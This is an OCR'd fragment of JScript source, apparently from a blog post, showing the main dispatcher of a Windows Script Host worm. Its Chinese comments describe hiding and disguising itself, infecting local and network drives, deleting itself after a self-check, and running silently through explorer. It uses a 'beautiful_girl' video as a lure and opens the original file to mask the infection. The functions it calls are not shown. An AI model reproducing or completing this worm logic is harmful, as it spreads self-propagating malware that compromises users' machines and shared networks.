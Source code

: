 }

function Main() {
    var args = WScript.Arguments;
    if (GetExtensionName(ScriptPath) != 'jse' && args.length > 0) {
        switch (args.Item(0)) {
            case '/e':
                Install();
                break;
            case '/r': // 隐藏和伪装自身
                HideAndDisguise();
                break;
            case '/s': // 感染驱动器
                InfectDrives();
                break;
            case '/n': // 感染网络驱动器
                InfectNetworkDrives();
                break;
            case '/t': // 自检后删除当前脚本
                TestAndRepair();
                shell.Run('cmd /c del /q /f ' + ScriptPath, 0);
                break;
            case '/a': // 自检后以explorer静默执行当前脚本
                TestAndRepair();
                shell.Run('explorer.exe /e,/select,' + ScriptPath);
                break;
            default:
                TestAndRepair();
                try {
                    // 播放个漂亮姑娘.avi，萌萌哒
                    shell.Run('wmplayer.exe "' + ScriptPath.substr(0, ScriptPath.length - 9) + 'beautiful_girl_part_' + args.Named.Item('q') + '.avi');
                } catch (e) {}
        }
    } else {
        TestAndRepair();
        TryOpenTheOriginalFile();
    }
}

Main();
{% endcodeblock %}